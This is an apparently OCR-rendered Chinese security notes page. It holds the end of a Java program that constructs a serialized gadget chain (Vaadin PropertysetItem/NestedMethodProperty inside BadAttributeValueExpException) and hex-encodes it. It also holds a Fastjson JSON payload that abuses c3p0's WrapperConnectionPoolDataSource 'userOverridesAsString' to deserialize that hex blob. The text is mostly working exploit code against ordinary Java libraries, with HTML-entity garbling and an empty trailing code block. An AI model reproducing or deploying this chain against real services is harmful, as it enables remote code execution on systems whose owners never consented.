 ```java  
        propertysetItem.addItemProperty(&#34;Connection&#34;, nestedMethodProperty);    
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);    
        setFieldValue(badAttributeValueExpException,&#34;val&#34;,propertysetItem);    
        System.out.println(toHexAscii(tobyteArray(badAttributeValueExpException)));    
    }    
    
    public static void setFieldValue(Object object, String field, Object arg) throws NoSuchFieldException, IllegalAccessException {    
        Field f = object.getClass().getDeclaredField(field);    
        f.setAccessible(true);    
        f.set(object, arg);    
    }    
    
    //将类序列化为字节数组    
    public static byte[] tobyteArray(Object o) throws IOException {    
        ByteArrayOutputStream bao = new ByteArrayOutputStream();    
        ObjectOutputStream oos = new ObjectOutputStream(bao);    
        oos.writeObject(o);    
        return bao.toByteArray();    
    }    
    static void addHexAscii(byte b, StringWriter sw)    
    {    
        int ub = b &amp; 0xff;    
        int h1 = ub / 16;    
        int h2 = ub % 16;    
        sw.write(toHexDigit(h1));    
        sw.write(toHexDigit(h2));    
    }    
    
    private static char toHexDigit(int h)    
    {    
        char out;    
        if (h &lt;= 9) out = (char) (h &#43; 0x30);    
        else out = (char) (h &#43; 0x37);    
        //System.err.println(h &#43; &#34;: &#34; &#43; out);    
        return out;    
    }    
    //字节数组转十六进制    
    public static String toHexAscii(byte[] bytes)    
    {    
        int len = bytes.length;    
        StringWriter sw = new StringWriter(len * 2);    
        for (int i = 0; i &lt; len; &#43;&#43;i)    
            addHexAscii(bytes[i], sw);    
        return sw.toString();    
    }    
}  
```  
  
```json  
{  
  &#34;a&#34;: {  
    &#34;@type&#34;: &#34;java.lang.Class&#34;,  
    &#34;val&#34;: &#34;com.mchange.v2.c3p0.WrapperConnectionPoolDataSource&#34;  
  },  
  &#34;b&#34;: {  
    &#34;@type&#34;: &#34;com.mchange.v2.c3p0.WrapperConnectionPoolDataSource&#34;,  
    &#34;userOverridesAsString&#34;: &#34;HexAsciiSerializedMap:&lt;result&gt;;&#34;,  
  }  
}  
```  
列举目录  
```java  
```